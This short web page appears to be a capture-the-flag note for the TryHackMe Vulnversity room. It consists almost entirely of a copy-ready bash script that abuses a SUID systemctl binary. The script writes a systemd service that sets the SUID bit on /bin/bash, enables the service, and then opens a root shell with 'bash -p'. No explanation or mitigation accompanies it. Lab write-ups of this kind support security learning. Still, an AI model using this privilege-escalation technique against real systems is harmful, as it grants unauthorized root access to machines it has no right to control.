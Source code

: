 ```yaml
---
layout: default
---
```



## systemctl exploit for TryHackMe Vulnversity Room 

{% include codeHeader.html %}
```bash
TF=$(mktemp).service
touch $TF
cat << EOF > $TF
[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target
EOF
systemctl link $TF
systemctl enable --now $TF
bash -p
```

[back](./)

<script src="/assets/js/copyCode.js"></script>
